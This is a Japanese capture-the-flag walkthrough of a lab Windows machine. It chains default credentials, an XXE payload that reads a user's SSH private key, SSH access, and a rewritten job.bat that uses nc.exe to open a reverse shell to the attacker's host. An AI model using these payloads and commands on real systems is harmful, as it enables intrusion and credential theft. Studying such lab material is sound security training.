# 1.Port Scan

対象マシンのポートをスキャン
ip=10.129.95.192

sudo nmap -sC -A -Pn $ip



HPを発見



USERNAME: admin
PASSWORD: password

orderから送信



XMLを使用してる事を確認。



ページソースからDanielユーザの存在を確認。



<!DOCTYPE root [<!ENTITY abc SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>

itemの項目を&test;に変更

認証キーを取得



取得した認証キーをファイルにコピー

`cat id_rsa`



rsaファイルの権限を変更



# 2.SSH Connect

取得した認証キーを使いsshで接続

`ssh -i id_rsa daniel@$ip`



user.txtを取得

`whoami`

`cd Desktop`

`dir`

`type user.txt`



C直下に移動して手掛かりになるファイルを調査。
Log-Managementフォルダにjob.batを発見。

`cd ../`

`cd ../../`

`dir`

`C:/Log-Managment`



job.bat内を確認してwevtutilを実行して管理者権限があることを確認

`type job.bat`



powershellを起動してschetasksを確認

job.batに関連したtaskは発見できなかった



kadoussiteiru purosesu wo kakunin
稼働しているプロセスを確認
wevtutilが稼働しているのを確認





# 3.reverse shell

job.batを書き換えてリバースシェルを実行する

ローカルでサーバを立ち上げる



ローカルサーバからnc.exeをアップロードする

`wget http://10.10.16.9/nc.exe -outfile nc.exe`



echoコマンドを使いjob.batの内容をローカルマシンの指定したポートに接続するように
書き換える。

`echo C:\Log-Management\nc.exe -e cmd.exe 10.10.16.9 1234 > C:\Log-Management\job.bat`  
`type job.bat`



# 4.Flag Get

接続を確認



root.txtを取得

`cd C:\Users\Administrator\Desktop`

`dir`

`cd C:\Users\Administrator\Desktop`

